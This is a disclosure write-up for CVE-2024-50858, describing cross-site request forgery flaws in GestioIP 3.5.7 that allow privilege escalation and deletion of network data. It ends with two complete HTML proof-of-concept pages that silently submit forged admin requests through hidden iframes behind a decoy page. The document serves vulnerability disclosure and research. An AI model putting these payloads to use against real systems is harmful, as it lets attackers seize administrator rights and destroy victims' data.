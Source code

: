 ```yaml
---
title: "CVE-2024-50858. GestioIP Vulnerability: CSRF"
description: Cross-Site Request Forgery
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - CSRF
---
```

# CVE-2024-50858


- [Information](#information)
- [Example 1 - Leading to Privilege Escalation](#example-1---leading-to-privilege-escalation)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Prerequisite](#prerequisite)
		- [Usage/Exploitation](#usageexploitation)
- [Example 2 - Reset database](#example-2---reset-database)
	- [Information](#information)
	- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
		- [Description](#description)
		- [Usage/Exploitation](#usageexploitation)
- [Payloads](#payloads)


## Information


### Description

The GestioIP application has many endpoints and they are vulnerable to CSRF. This allows an attacker to execute actions through the admin's browser on the application if the admin visits a malicious URL hosted by the attacker. These actions can modify, delete, or exfiltrate data from the application.
Two examples are described below.


**Versions Affected:** 3.5.7 


## Example 1 - Leading to Privilege Escalation

### Information

**Description:** The `ip_mod_user` request is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_mod_user` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to privilege escalation. If an administrator goes to a malicious URL while being authenticated to the GestioIP application, the CSRF will execute making the attacker and administrator user in the application. 

#### Prerequisite

The option "Manage - Manage GestioIP - User Management" must be enabled previously.

![](files/CVE-2024-50858.png)


#### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload8a.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute making the attacker an administrator.

Before accessing the malicious link:

![](files/CVE-2024-50858-3.png)


After clicking the malicious link:

![](files/CVE-2024-50858-1.png)


Let's check users again:

![](files/CVE-2024-50858-2.png)



## Example 2 - Reset database

### Information

**Description:** The `ip_manage_gestioip` request is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset (deleting data). <br> 

### Proof-of-Concept Exploit

#### Description

The `ip_manage_gestioip` feature of GestioIP 3.5.7 is vulnerable to Cross Site Request Forgery (CSRF) leading to a database reset. If an administrator clicks the malicious URL while being authenticated to the GestioIP application, the CSRF will execute deleting all networks registered in the app for a specific client (default client is named DEFAULT).


### Usage/Exploitation

To exploit this vulnerability, an attacker must host ```payload9.html``` on an attacker-controlled web server. When an authenticated administrator goes to the attacker's website, the CSRF will execute deleting all the networks registered in the app in the specified client.


After clicking the malicious URL:

![](files/CVE-2024-50858-5.png)

![](files/CVE-2024-50858-4.png)


## Payloads


`payload8a.html`

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Welcome to our site</title>
<style>
body {
font-family: Arial, sans-serif;
text-align: center;
}
.container {
margin-top: 50px;
}
iframe {
display: none;
}
</style>
</head>
<body>
<div class="container">
<h1>Thank you for visiting our site!</h1>
<p>We are processing your request, please wait a moment...</p>
<img src="https://placehold.co/150?text=Processing" alt="Processing...">
</div>
<!-- hidden iframe -->

<iframe name="hiddenFrame"></iframe>

<!-- The form that makes the POST to GestioIP Server -->
<form action="[http://localhost/gestioip/res/ip_mod_user.cgi](http://localhost/gestioip/res/ip_mod_user.cgi)" method="POST" target="hiddenFrame">
<input type="hidden" name="name" value="maxi">
<input type="hidden" name="group_id" value="1">
<input type="hidden" name="email" value="maxi@test.com">
<input type="hidden" name="phone" value="123">
<input type="hidden" name="comment" value="">
<input type="hidden" name="client_id" value="1">
<input type="hidden" name="id" value="2">
<input type="hidden" name="B2" value="">
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```


`payload9.html`

``` html
<html>
    <body>
        <iframe name="hiddenFrame" style="display:none;"></iframe>

        <form action="http://localhost/gestioip/res/ip_manage_gestioip.cgi" method="POST" target="hiddenFrame">
            <input type="hidden" name="reset_database_ipv4" value="yes">
            <input type="hidden" name="reset_database_ipv6" value="yes">
            <input type="hidden" name="manage_type" value="reset_database">
            <input type="hidden" name="client_id" value="1">
            <input type="hidden" name="B1" value="reset database">
        </form>

        <script>
            history.pushState('', '', '/');
            document.forms[0].submit();
        </script>
    </body>
</html>
```
